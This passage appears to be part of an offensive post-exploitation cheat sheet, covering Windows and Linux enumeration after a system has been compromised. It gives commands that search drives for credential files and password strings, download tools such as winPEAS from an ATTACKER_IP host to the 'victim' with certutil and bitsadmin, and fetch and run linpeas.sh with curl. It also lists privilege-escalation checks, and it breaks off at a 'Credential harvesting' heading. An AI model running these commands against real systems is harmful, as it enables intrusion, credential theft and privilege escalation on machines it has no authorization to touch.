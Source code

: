 ```
wmic process get Name,CommandLine,ExecutablePath
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
# Hunt for credentials and configs
dir C:\ /a /s /b | findstr /i "backup .kdbx .config .ini .env id_rsa KeePass"
findstr /si /m "password= pwd= connectionString= secret key=" C:\*.txt C:\*.ini C:\*.config C:\inetpub\wwwroot\*.config C:\Users\*\AppData\Roaming\*.xml
```

5) Quick tool transfer (Windows)
```
# From victim (CMD):
certutil -urlcache -split -f http://ATTACKER_IP:8000/winPEASx64.exe C:\Windows\Temp\winPEASx64.exe

# Alternative (legacy, can be noisy):
bitsadmin /transfer job /download /priority normal http://ATTACKER_IP:8000/winPEASx64.exe C:\Windows\Temp\winPEASx64.exe
```

6) Run automated enum helpers (use only if allowed)
```
# Linux
curl -fsSL http://ATTACKER_IP:8000/linpeas.sh -o /tmp/linpeas.sh && chmod +x /tmp/linpeas.sh && /tmp/linpeas.sh

# Windows (CMD)
C:\Windows\Temp\winPEASx64.exe
```

7) Privilege escalation checks – common quick wins

Linux:
```
sudo -l
find / -perm -u=s -type f 2>/dev/null
getcap -r / 2>/dev/null
cat /etc/crontab; ls -la /etc/cron.* 2>/dev/null
env | sort
echo $PATH
# Look for writable service files, scripts, or PATH hijack opportunities
```

Windows:
```
whoami /priv
# AlwaysInstallElevated?
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
# UAC policy (informational)
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA
# Unquoted service paths / weak file permissions (use winPEAS/Seatbelt to speed this up)
```

8) Credential harvesting
